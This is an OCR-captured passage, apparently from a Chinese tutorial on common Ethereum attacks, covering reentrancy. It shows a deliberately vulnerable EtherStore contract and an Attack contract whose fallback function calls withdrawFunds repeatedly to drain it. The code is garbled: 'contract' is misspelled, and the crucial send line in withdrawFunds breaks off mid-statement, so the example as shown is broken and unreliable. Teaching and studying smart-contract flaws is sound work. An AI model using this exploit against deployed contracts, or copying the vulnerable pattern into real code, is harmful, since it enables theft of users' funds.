 以太坊上的常见攻击
##1.重入漏洞 Reentrancy

一个简单的例子如下
ontract EtherStore {

    uint256 public withdrawalLimit = 1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;
    
    function depositFunds() public payable {
        balances[msg.sender] += msg.value;
    }
    
    function withdrawFunds (uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        // limit the withdrawal
        require(_weiToWithdraw <= withdrawalLimit);
        // limit the time allowed to withdraw
        require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
        require(msg.sender.call.value
        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = now;
    }
 }



一个攻击合约的例子：
import "EtherStore.sol";

contract Attack {
  EtherStore public etherStore;

  // intialise the etherStore variable with the contract address
  constructor(address _etherStoreAddress) {
      etherStore = EtherStore(_etherStoreAddress);
  }
  
  function pwnEtherStore() public payable {
      // attack to the nearest ether
      require(msg.value >= 1 ether);
      // send eth to the depositFunds() function
      etherStore.depositFunds.value(1 ether)();
      // start the magic
      etherStore.withdrawFunds(1 ether);
  }
  
  function collectEther() public {
      msg.sender.transfer(this.balance);
  }
    
  // fallback function - where the magic happens
  function () payable {
      if (etherStore.balance > 1 ether) {
          etherStore.withdrawFunds(1 ether);
      }
  }
}

